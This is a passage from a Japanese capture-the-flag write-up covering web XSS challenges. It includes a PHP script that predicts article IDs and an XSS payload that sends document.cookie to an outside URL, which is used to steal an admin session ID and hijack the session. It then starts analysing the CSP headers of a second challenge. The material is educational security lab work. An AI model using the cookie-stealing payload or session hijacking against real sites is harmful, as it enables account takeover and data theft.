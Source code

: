 記事 ID はユーザ名、投稿時の時刻 (分単位)、記事のタイトルから生成されているようです。これなら予測できそうです。

#### 解く
`guess.php` というファイルに以下のような内容を書き込みます。

```php
<?php
date_default_timezone_set('Asia/Tokyo');
$username = 'nekoneko';
$code = '<script>(new Image).src="http://(URL)?"+document.cookie</script>';
$article_key = md5($username . date("Y/m/d H:i") . $code);
echo "[#${article_key}#]";
```

`php guess.php` で出てきたタグを本文にして記事を投稿し、その次に `<script>…</script>` というコードをタイトルにして投稿します。

前者の記事にアクセスすると、`http://(URL)?PHPSESSID=…` のようなリクエストが発生しました。この記事を運営に連絡すると運営にこの XSS を踏ませることができ、admin の `PHPSESSID` (セッション ID) を得ることができました。

得られたセッション ID を Cookie にセットし、記事一覧から `flag` というタイトルの記事を見るとフラグが得られました。

```
ctf4b{simple_xss_just_do_it_haha_haha}
```

### Secure Meyasubako (433)
> みなさまからのご意見をお待ちしています。
> 
> https://(省略)

与えられた URL にアクセスすると、この CTF への意見を投稿できるフォームへのリンクが表示されました。

適当に `<s>test</s>` という意見を投げると、その意見の詳細ページでそのまま HTML として出力され XSS ができる…ように見えますが、`<script>alert(1)</script>` を投げてもアラートが出てきません。なぜでしょう。

意見の詳細ページで発行される HTTP レスポンスヘッダを見てみましょう。

```
X-XSS-Protection: 0
```

`X-XSS-Protection` という HTTP レスポンスヘッダが発行されています。これは XSS Auditor (Reflected XSS を検知し抑制する Web ブラウザのセキュリティ機構) を有効化するか無効化するか設定できるヘッダですが、今回は値が `0` なので無効化されており、XSS Auditor のことを気にする必要はなさそうです。

```
Content-Security-Policy: script-src 'self' www.google.com www.gstatic.com stackpath.bootstrapcdn.com code.jquery.com cdnjs.cloudflare.com
```

`Content-Security-Policy` という HTTP レスポンスヘッダが発行されています。これは [Content Security Policy (CSP)](https://developer.mozilla.org/ja/docs/Web/HTTP/CSP) と呼ばれる Web ブラウザのセキュリティ機構で、これを HTTP レスポンスヘッダ等によって設定することで、読み込まれるリソースや実行されるスクリプトなどに制限をかけることができます。

今回は `script-src 'self' www.google.com www.gstatic.com stackpath.bootstrapcdn.com code.jquery.com cdnjs.cloudflare.com` と、`script-src` ディレクティブによって実行されるスクリプトの制限がされており、`'self'` (この Web アプリケーションと同じオリジン) や `www.google.com` 等の指定されているドメイン下にあるスクリプトのみが実行できるようになっています。

[CSP Evaluator](https://csp-evaluator.withgoogle.com/) という、ある CSP がセキュアかどうかチェックしてくれるツールがあるので投げてみましょう。結果は以下のとおりです。
